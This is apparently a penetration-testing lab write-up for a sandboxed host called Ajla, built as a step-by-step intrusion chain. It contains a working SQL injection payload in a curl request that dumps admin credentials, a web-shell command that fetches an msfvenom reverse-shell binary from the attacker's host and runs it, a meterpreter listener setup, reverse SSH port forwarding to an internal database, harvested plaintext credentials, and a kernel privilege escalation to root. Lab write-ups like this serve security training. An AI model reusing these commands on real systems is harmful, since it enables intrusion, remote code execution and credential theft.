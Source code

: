 # Ajla (10.4.4.10)
***
> [!info] 
> The initial target is a wordpress site `http://sandbox.local` which points to an external IP `10.11.1.250`.   

## Enumeration
1. We scanned the target using `wpscan`
```
wpscan --url http://sandbox.local --enumerate ap,at,cb,dbe
```

2. `wpscan` was able to detect several plugins installed but the most interesting one is the plugin named `WordPress Survey & Poll`. Checking on its [readme.txt](http://sandbox.local/wp-content/plugins/wp-survey-and-poll/readme.txt) suggest that the current version might be `1.5.7.3`

![[wpsandbox-changelog.png]]

> [!info] 
> Before **Wordpress 5.8**, almost all plugins have a `readme.txt`. The `readme.txt` file is intended to be written using a subset of markdown and usually readable publicly (as it is a text file). 

3. Using `searchploit`, we are able to know that the current version is vulnerable to SQL Injection   
![[wpsandbox-sqli.png]]

***
## Exploit
1. Using the proof of concept from [EDB-45411](https://www.exploit-db.com/exploits/45411), we we're able to extract the Wordpress Admin's **username** and **password hash**.

```
curl -i -s -k -X $'GET' -b $'wp_sap=[\"1650149780\')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,\':\',user_pass) from wp_users),11#\"]' $'http://sandbox.local/' | grep "var sss_params"
```

![[wpsandbox-ssparam.png]]


```
Username: wp_ajla_admin
Hash: $P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/
```   
2. Using **John the Ripper (JtR)**, we are able to extract the plaintext `?:!love29jan2006!`
   
![[wpsandbox-jtr.png]]
   
3. Using the credentials, we are able to login to the **Wordpress Admin Dashboard** and was able to upload our web shell as Wordpress plugin.   
   
4. We generated a meterpreter shell that creates a connection on our port **443**
   
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=443 -f elf -o xshell.elf
```

```
sudo msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost KALI_IP; set lport 443; exploit"
```

5. Using our web shell, we uploaded and executed our meterpreter shell on the server
```
curl -i -s -k -X $'GET' $'http://sandbox.local/wp-content/plugins/xshell/xshell.php?cmd=wget+http://KALI_IP/xshell.elf+%26%26+chmod+%2bx+xshell.elf+%26%26+./xshell.elf'
```

6. Using our meterpreter shell, we are able to execute OS commands on the server.   
   ![[ajla-meterpreter.png]]

> [!info] 
> We are able to know that the hostname of the server is `ajla` and it has an internal IP `10.4.4.10` 

7. We are able to read `wp-config.php` and retrieved the information of database used by Wordpress. The database has the IP `10.5.5.11`

```
DB name: wordpress
User: wp
Password: Lv9EVQq86cfi8ioWsqFUQyU
Host: 10.5.5.11
```

> [!todo] 
>  We discovered a connection to the database with an IP `10.5.5.11`. But this database server is not accessible externally, that means we need to set up a remote port forwarding to be able to access it from our Kali machine. 

8. From our shell, we generated a keypair using `ssh-keygen` and added the victim's public key into our Kali machine(authorized_keys) using the following settings:
   
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nz....IQv www-data@ajla
```
   

9. We set up a remote port forward from ajla to expose port **22** and port **3306** of zora to Kali. We used port **1122** of Kali to point to port **22** of zora, and used **13306** of Kali to point to port **3306** of zora.

 ``` 
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@KALI_IP
```

9. Using the retrieved credentials, we tried to connect to the database (**MariaDB**) server and attempted to execute OS commands. Unfortunately (for us), the user (`wp`) doesn't have enough privilege for us to be able to execute OS commands.
   
```
mysql --host=127.0.0.1 --port=13306 --user=wp -pLv9EVQq86cfi8ioWsqFUQyU
```
 
## Post-exploitation

1. Using our reverse shell, we did further enumeration and found out that the server is using an outdated Linux kernel
![[ajla-uname.png]]

2. We searched for reported vulnerabilities for that version and we found the Local Privilege Escalation exploit [EDB-45010](https://www.exploit-db.com/exploits/45010)
3. We compiled the exploit and transferred it into the target server. 
3. We executed the exploit on the server and we got a root access.
   ![[ajla-root.png]]
4. We accessed the file  `/root/.bash_history` and we got a credentials for mysql root user (for `10.5.5.11`)
```
user: root
password: BmDu9xUHKe3fZi3Z7RdMBeb
host: 10.5.5.11
```

![[ajla-root-proof.png]]
